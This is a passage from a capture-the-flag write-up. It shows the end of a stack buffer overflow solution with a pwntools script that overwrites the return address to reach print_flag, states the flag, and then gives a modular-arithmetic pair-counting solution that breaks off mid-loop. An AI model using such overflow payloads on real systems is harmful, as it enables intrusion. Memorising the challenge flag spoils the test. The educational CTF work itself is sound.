 Since the return address pointer is stored above the previous rbp, which is stored right above %rbp, we basically need to add 0xc0 bytes of garbage plus an addition 8 bytes to skip over the old rbp and start overriding the return address.

Once we do that, we can set the return address to the address of print_flag, and we got our payload:

```python
from pwn import *

import asyncio
import websockets

async def solve():
    uri = "ws://cararra-ctf-files.herokuapp.com/r4/rip-the-rip"
    async with websockets.connect(uri) as websocket:
        print(f"< {await websocket.recv()}")
        await websocket.send(b'a'*200 + p64(0x401172) + b'\n')
        print(f"Sent payload")
        print(f"< {await websocket.recv()}")
        print(f"< {await websocket.recv()}")

asyncio.get_event_loop().run_until_complete(solve())
```

Running the code, we get our flag is `cararraCTF{j0n_Th3_R1PP3r_1n_da_hOusE?}`.

## multiple-sums

Algorithms (75 points)

### Problem

Given N distinct numbers, find the number of (unordered) pairs that sum to a multiple of M mod 10^9+7. The test case gives N and M on the first line followed by N numbers, each on a new line. Enter your answer in flag format: if your answer is 50, enter the flag cararraCTF{50}.

Relevant links: [multiple-sums.txt](https://cararra-ctf-files.herokuapp.com/r4/multiple-sums.txt)

### Writeup

This is a modular arithmetic problem, and we know that the only way to get a multiple of M is to sum something <img style="justify-content:center" src="https://render.githubusercontent.com/render/math?math=\color{grey} k \pmod M"/>  with something <img style="justify-content:center" src="https://render.githubusercontent.com/render/math?math=\color{grey}M-k \pmod M"/>.

So, we can proceed by counting how many numbers are in each residue class, then count how many ways we can pair them up. We only have to be careful in the cases of 0 and M/2, since <img style="justify-content:center" src="https://render.githubusercontent.com/render/math?math=\color{grey}k \equiv M-k \mod M"/>.

Here is the code:

```python
f = open('multiple-sums.txt')

n, m = map(int, f.readline().split())

nums = [int(f.readline()) for i in range(n)]

mods = [0] * m

for i in nums:
    mods[i % m] += 1

tot = 0
mod = 10**9 + 7

for i in range(m//2+1):
    other = (m-i)%m
    if i == other:
        tot += mods[i] * (mods[i] - 1) // 2
```